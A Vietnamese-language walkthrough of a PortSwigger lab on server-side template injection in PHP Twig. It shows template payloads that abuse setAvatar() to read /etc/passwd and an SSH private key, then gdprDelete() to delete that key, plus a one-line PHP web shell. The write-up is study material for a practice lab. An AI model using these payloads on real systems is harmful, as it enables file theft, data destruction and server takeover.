


# Server-side template injection with a custom exploit
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-a-custom-exploit

## Phân tích
- Ta thấy dùng các payload trong comment nó ko đc evaluate


- Chỉ thấy có username đang hiển thị, thử exploit tên này, vd `blog-post-author-display=user.namenotexist`

- Refresh blog post

- Username của bài post đã biến mất, ko thấy error  message gì cả
- Ta thử với object only `blog-post-author-display=user`, ah đã trigger error

- Template engine đang dùng là PHP Twig
- Check upload avatar function với 1 invalid file (test.php)
```
<?php system($GET['cmd']); ?>
```


- Ta thấy có hàm setAvatar() có thể truy cập từ user object.
- Quay lại POST req với `blog-post-author-display=user....`, thử POST với `blog-post-author-display=user.setAvatar()`, refresh post comment.
- Ta thấy error báo là nó cần phải pass vào hàm 2 arguments

- Thử lại với `blog-post-author-display=user.setAvatar('/etc/passwd')`

- Error tiếp, coi lại thông báo khi upload invalid avatar, ta thấy hàm setAvatar đúng sẽ là `User->setAvatar('/tmp/exploit.ph...', 'application/oct...')`, ở đây arg 1 là file path, arg 2 là MIME
- Sửa lại POST với `blog-post-author-display=user.setAvatar('/etc/passwd','image/jpeg')`

- Comment post ko còn báo lỗi nữa, và avatar sẽ hiển thị như kiểu broken như hình.
  - Note: ta phải refresh the page để thấy avatar update, vì khi refresh, thì template mới render lại dựa vào những param mà ta inject vào
- Ta get nội dung avatar thử

- Tất cả nội dung của /etc/passwd đã in ra
- Theo đề bài thì yêu cầu xóa file `/.ssh/id_rsa`
- Gởi POST `blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')` --> refresh --> GET avatar

- Hm, ko có nội dung gì đặc biệt, ko cần quan tâm vì đề bài yêu cầu xóa file này. Ta cần tìm cách/function để xóa nó.
- Thử inspect nội dung php main file `/home/carlos/User.php`

- Có hàm `gdprDelete()` để xóa file.
  - Note: It first removes the target of a symbolic link (if it exists), then removes the symbolic link itself, and finally, it calls a delete method, which presumably handles additional cleanup or deletion tasks.

## Resolve lab
- Target của `gdprDelete()` là xóa file/link của avatar `$this->avatarLink`
- Do đó để xóa file `/.ssh/id_rsa`, ta phải define avatarLink trước.
- Repeat lại post req trên `blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')` --> refresh --> GET avatar
- Update lại POST với `gdprDelete()`

- Ta thấy error như này, vì Avatar đã bị xóa nên template ko thể render được, nhưng thực ra bên trong nó là file id_rsa đã gián tiếp bị xóa.

- Done


## Explain php

- PHP Code: `<?php system($GET['cmd']); ?>`
  - The code uses the system function to execute a shell command.
  - $GET['cmd'] attempts to retrieve the value of the 'cmd' parameter from the GET request.
- Vulnerability:
  - This code is susceptible to command injection. An attacker can craft a URL like http://example.com/script.php?cmd=malicious_command to execute arbitrary commands on the server.
  - For example, an attacker might try something like http://example.com/script.php?cmd=ls to list the files in the directory, or worse, inject commands that could compromise the server.